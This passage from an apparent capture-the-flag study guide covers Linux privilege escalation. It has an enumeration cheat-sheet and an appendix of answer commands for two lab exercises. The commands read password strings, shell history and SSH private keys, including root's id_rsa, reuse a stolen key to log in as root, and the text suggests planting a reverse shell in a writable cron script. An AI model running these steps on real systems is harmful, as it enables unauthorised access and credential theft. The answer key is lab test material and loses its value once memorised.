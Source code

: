 ## Quick reference workflow (one-page cheat-sheet)

1. Enumerate: `uname -a`, `cat /etc/os-release`, `id`, `groups`, `sudo -l`, `ls -la`, `ps -aux`, `crontab -l`, `ls /etc/cron*`  
2. Search for secrets: `grep -R "password" /var/www /etc 2>/dev/null`, `cat ~/.bash_history`  
3. Look for keys: `ls -la /home/*/.ssh` and `cat /home/user/.ssh/id_rsa`  
4. If you have a key, copy it to your local machine and `chmod 600 id_rsa` → `ssh -i id_rsa root@IP -p PORT`  
5. If `sudo -l` shows NOPASSWD or anything suspicious, research the binary on GTFOBins for exploitation technique.  
6. If cron runs a writable script, write your reverse shell into that script and wait for execution.

---

## Final tips

- Keep a note of every command you run and why — it helps you reproduce the path later.  
- When in doubt, Google exact kernel version + “CVE” (or use searchsploit) in your lab — many public exploits exist for older versions.  
- Never run kernel exploits against a production system without explicit permission.

---

## Appendix — exercise answer cheatsheet (copyable commands)

### Prompt 1
```bash
ssh [given user]@[given ip] -p [given port number]
sudo -l
sudo -su user2
cd ~
ls
cat flag.txt
```

### Prompt 2 (from user2)
```bash
whoami
cat /root/.ssh/id_rsa            # copy this output
# On your local / HTB console:
vim id_rsa                       # paste the copied key
# (edit with i, exit INSERT with Esc; delete lines with Shift+V and dd)
chmod 600 id_rsa
ssh root@[target ip] -p [port] -i id_rsa
ls
cat /root/flag.txt
```

---
